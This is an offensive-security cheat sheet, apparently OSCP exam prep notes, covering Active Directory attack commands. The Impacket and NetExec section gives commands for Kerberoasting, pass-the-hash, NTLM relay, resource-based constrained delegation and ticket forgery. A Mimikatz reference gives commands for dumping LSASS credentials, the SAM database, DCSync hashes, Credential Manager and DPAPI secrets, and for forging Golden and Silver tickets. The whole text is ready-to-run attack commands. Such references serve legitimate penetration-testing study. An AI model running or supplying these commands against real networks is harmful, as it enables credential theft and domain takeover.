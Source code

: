### Kerberos & Ticket Operations
- Use pass-the-hash with Kerberos (no password required):  
  `GetUserSPNs.py <domain>/<user> -hashes <LMHASH:NTHASH> -dc-ip <dc_ip>`
  `nxc ldap <dc_ip> -u <user> -p <pass> --continue-on-success --kerberoasting output.txt --kdcHost DC01.oscp.exam`
- Request TGT using NT hash (pass-the-key):  
  `getTGT.py <domain>/<user> -hashes <LMHASH:NTHASH>`
- Relay NTLM across protocols for lateral moves:  
  `ntlmrelayx.py -t smb://<target> -socks -debug`  
  (Feed hashes via coercion tools; combine with `--no-smb-server` for targeted relays.)
- Create forged Kerberos tickets for delegation abuse:  
  `ticketer.py -nthash <NTHASH> -domain <domain> -spn <service>/<target> <user>`
- Perform Resource-Based Constrained Delegation attacks:  
  `rbcd.py <domain>/<user>@<dc_ip> -hashes <LMHASH:NTHASH> -delegate-from <SOURCE$> -delegate-to <TARGET$> -sid <TARGET_SID>`

---

## Mimikatz Command Reference

Run Mimikatz from an elevated context (Administrator) and enable debug privilege before harvesting credentials.

### Setup & Privilege Escalation
- `privilege::debug` – Enable SeDebugPrivilege required for most credential extraction.
- `token::list` – Enumerate available tokens.
- `token::elevate` – Impersonate a higher-privileged token (e.g., SYSTEM).

### LSASS Credentials & Tickets
- `sekurlsa::logonpasswords` – Dump live credentials (usernames, NT hashes, clear-text when available).
- `sekurlsa::logonpasswords /inject` – Spawn an elevated process and dump from there.
- `sekurlsa::kerberos` – List Kerberos tickets from LSASS.
- `sekurlsa::tickets /export` – Export Kerberos tickets (TGT/TGS) to `.kirbi` files.
- `sekurlsa::ekeys` – Retrieve Kerberos encryption keys for sessions.

### SAM, LSA, and DC Sync
- `lsadump::sam` – Dump local SAM database (requires SYSTEM).
- `lsadump::lsa /patch` – Extract cached domain logons and secrets.
- `lsadump::dcsync /domain:<domain> /user:<user_or_krbtgt>` – Perform DCSync to pull password hashes without touching LSASS.
- `lsadump::dcsync /domain:<domain> /all /csv` – Dump entire domain credential set to CSV.

### Credentials Vaults & DPAPI
- `vault::list` – Enumerate Credential Manager entries.
- `vault::cred /patch` – Dump Credential Manager secrets.
- `dpapi::cred /in:<masterkey>` – Decrypt DPAPI-protected credentials when master key is known.
- `dpapi::cache /in:<blob>` – Decode cached domain credentials.

### Kerberos Ticket Forgery & Abuse
- `kerberos::list /export` – Enumerate and export Kerberos tickets.
- `kerberos::ptt <ticket.kirbi>` – Pass-the-ticket by injecting a `.kirbi`.
- `kerberos::golden /user:<user> /domain:<domain> /sid:<domain_sid> /krbtgt:<nt_hash>` – Craft a Golden Ticket.
- `kerberos::silver /service:<service>/<host> /target:<host> /domain:<domain> /sid:<domain_sid> /rc4:<service_hash>` – Craft a Silver Ticket.
